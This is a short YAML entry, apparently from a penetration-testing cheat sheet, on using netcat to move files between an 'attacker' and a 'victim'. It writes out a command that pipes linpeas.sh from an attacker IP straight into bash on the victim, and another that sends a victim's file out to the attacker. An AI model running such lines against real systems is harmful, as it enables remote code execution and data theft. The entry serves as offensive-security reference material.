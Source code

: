 ```yaml
---
description: |
  The Netcat (nc) command is a command-line utility for reading and writing data between two computer networks. Which can be used to transfer files between victim and attacker.

  Command Reference:

  	File to copy: linpeas.sh

    nc -lvnp 9001 < linpeas.sh (attacker) & nc 10.10.21.14 9001 | bash (victim)

    nc 10.10.21.14 9001 < file.txt (victim) & nc -lvnp 9001 > file.txt (attacker)


command: |
  nc -lvnp 9001 < linpeas.sh
items:
  - Shell
services:

OS:
  - Windows
  - Linux
attack_types:
  - General
references:
  - https://medium.com/iostrap/how-to-transfer-files-between-servers-using-netcat-d8bc13eebea
  - https://linux.die.net/man/1/nc
---
```


